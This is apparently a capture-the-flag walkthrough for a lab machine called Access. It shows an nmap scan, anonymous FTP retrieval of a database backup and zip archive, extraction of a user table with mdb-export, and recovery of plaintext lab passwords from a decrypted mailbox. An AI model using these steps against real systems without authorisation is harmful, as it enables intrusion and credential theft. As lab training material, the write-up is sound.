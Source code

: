 # NTG - Access 10.10.10.98

- Windows

- ftp anonymous 
- extract db file
- Run cmd with Credentials


## nmap
````
nmap -sS -sV -p- -oN access.txt 10.10.10.98
````

## ftp anonymous
````
$ ftp> open 10.10.10.98
anonymous access
ftp> cd xx
ftp> ls -aihl           : All files includinh hidden
ftp> binary
ftp> get backup.mdb
ftp> get 'Access Control.zip'
````
backup.mdb : Standard Jet DB

## mdb file
````
$ sudo apt-get install mdb-tools
````
MDB Utilities
mdb-tables   : list tables in the specified file
mdb-schema   : generate schema DDL for the specified file
mdb-export   : generate CSV style output for a table
mdb-ver      : display the version of the specified file
mdb-header   : support for using MDB data in C
mdb-parsecsv : support for using MDB data in C
mdb-sql      : command line SQL query tool
````
$ mdb-tables backup.mdb
$ mdb-export backup.mdb auth_user
  27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
````

## p7zip AES
Acces_Control.zip : unzip not working, need p7zip
````
$ unzip ac.zip
Archive:  ac.zip
   skipping: Access Control.pst      unsupported compression method 99
Access Control.pst

=> Password protected AES
$ p7zip -d ac.7z
````
````
$ cat 'Access Control.mbox'
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure  this is passed on to your engineers.
````
